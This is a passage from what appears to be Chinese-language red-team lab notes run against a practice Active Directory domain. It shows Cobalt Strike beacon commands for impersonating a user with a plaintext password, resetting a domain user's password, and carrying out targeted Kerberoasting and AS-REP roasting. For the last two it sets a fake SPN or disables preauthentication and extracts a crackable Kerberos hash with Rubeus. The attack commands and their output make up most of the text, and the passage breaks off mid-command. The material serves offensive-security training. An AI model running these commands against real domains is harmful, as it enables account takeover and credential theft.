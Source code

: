 beacon> make_token DEV\jking Purpl3Drag0n
[+] Impersonated DEV\bfarmer

beacon> run net user jadams N3wPassw0rd! /domain

The request will be processed at a domain controller for domain dev.cyberbotic.io.

The command completed successfully.
```

# Targeted Kerberoasting

我们可以在帐户上设置一个 SPN，对其进行 kerberoast 并尝试离线破解，而不是更改密码。

```
beacon> powershell Set-DomainObject -Identity jadams -Set @{serviceprincipalname="fake/NOTHING"}
beacon> powershell Get-DomainUser -Identity jadams -Properties ServicePrincipalName

serviceprincipalname
--------------------
fake/NOTHING

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /user:jadams /nowrap

[*] Action: Kerberoasting

[*] Target User            : jadams
[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 1

[*] SamAccountName         : jadams
[*] DistinguishedName      : CN=Joyce Adam,CN=Users,DC=dev,DC=cyberbotic,DC=io
[*] ServicePrincipalName   : fake/NOTHING
[*] PwdLastSet             : 3/10/2021 3:28:20 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT

[*] Hash                   : $krb5tgs$23$*jadams$dev.cyberbotic.io$fake/NOTHING*$7D84D4D25DD82A170B308A21FED2E1F5$B22A1E [...snip...] 56B2E7

beacon> powershell Set-DomainObject -Identity jadams -Clear ServicePrincipalName
```

# Targeted ASREPRoasting

与上面的思路类似。修改帐户上的用户帐户控制值以禁用预身份验证，然后 ASREProast 它

```
beacon> powershell Get-DomainUser -Identity jadams | ConvertFrom-UACValue

Name                           Value                                                     
----                           -----                                                     NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536

beacon> powershell Set-DomainObject -Identity jadams -XOR @{UserAccountControl=4194304}
beacon> powershell Get-DomainUser -Identity jadams | ConvertFrom-UACValue
